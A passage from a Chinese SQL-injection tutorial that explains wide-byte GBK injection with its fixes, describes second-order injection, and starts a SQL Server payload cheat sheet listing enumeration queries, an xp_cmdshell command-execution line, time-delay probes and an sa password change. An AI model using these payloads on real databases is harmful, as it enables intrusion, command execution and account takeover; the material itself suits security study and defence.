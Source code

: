 **1.6 SQL注入小技巧**

**宽字节注入**

一般程序员用 gbk 编码做开发的时候，会用 set names 'gbk' 来设定，这句话等同于  

```
set
character_set_connection = 'gbk',
character_set_result = 'gbk',
character_set_client = 'gbk';
```

漏洞发生的原因是执行了 set character_set_client = 'gbk'; 之后， mysql 就会认为客户端传过来的数据是 gbk 编码的，从而使用 gbk 去解码，而 mysql_real_escape 是在解码前执行的。但是直接用 set names 'gbk' 的话 real_escape 是不知道设置的数据的编码的，就会加 %5c 。此时 server 拿到数据解码就认为提交的字符 +%5c 是 gbk 的一个字符，这样就产生漏洞了。
解决的办法有三种，第一种是把 client 的 charset 设置为 binary，就不会做一次解码的操作。第二种是是mysql_set_charset('gbk') ，这里就会把编码的信息保存在和数据库的连接里面，就不会出现这个问题了。第三种就是用 pdo。
还有一些其他的编码技巧，比如 latin 会弃掉无效的 unicode，那么 admin%32 在代码里面不等于 admin，在数据库比较会等于 admin。  

**二次注入**

二次 SQL 注入（Second-Order SQL Injection）是一种特殊类型的 SQL 注入攻击。与一般的 SQL 注入攻击类似，攻击者会通过输入恶意的 SQL 语句来执行非法操作。而二次 SQL 注入则是指攻击者在应用程序中注入恶意的数据，然后等待应用程序将这些数据存储在数据库中。当应用程序再次从数据库中读取这些数据时，恶意数据就会被读取出来，并执行恶意操作。
例如，一个 web 应用程序可能会将用户输入的内容存储在数据库中，然后在后续的页面中将这些内容显示出来。如果攻击者在用户输入中注入了恶意 SQL 语句，那么这些语句会被存储在数据库中。当应用程序从数据库中读取这些内容并在后续的逻辑中使用时，恶意 SQL 语句就有可能被执行，从而导致攻击成功。
与一般的 SQL 注入攻击相比，二次 SQL 注入攻击更加难以防范和检测，因为攻击者并不直接向应用程序发送恶意 SQL 语句，而是将其存储在数据库中等待应用程序读取。因此，防止二次 SQL 注入攻击需要采取一些特殊的防御措施，例如对输入数据进行更加严格的过滤和转义处理，使用预编译等。  

**1.7 CheatSheet**

**（1）SQL Server 常见Payload**

```
• Version
	– SELECT @@version
	– SELECT SERVERPROPERTY('Edition');
	– SELECT SERVERPROPERTY('EngineEdition');
• Comment
	– SELECT 1 -- comment
	– SELECT /*comment*/1
• Space
	– 0x01 - 0x20
• 用户信息
	– SELECT user_name()
	– SELECT system_user
	– SELECT user
	– SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID
• 用户权限
	– select IS_SRVROLEMEMBER('sysadmin')
	– select IS_SRVROLEMEMBER('db_owner')
• List User
	– SELECT name FROM master..syslogins
• 数据库信息
	– SELECT name FROM master..sysdatabases
	– select concat_ws(table_schema,table_name,column_name) from information_schema.columns
	– select quotename(name) from master..sysdatabases FOR XML PATH('')
• 执行命令
	– EXEC xp_cmdshell 'net user'
• Ascii
	– SELECT char(0x41)
	– SELECT ascii('A')
	– SELECT char(65)+char(66) => return AB
• Delay
	– WAITFOR DELAY '0:0:3' pause for 3 seconds
• Change Password
	– ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'
• Trick
```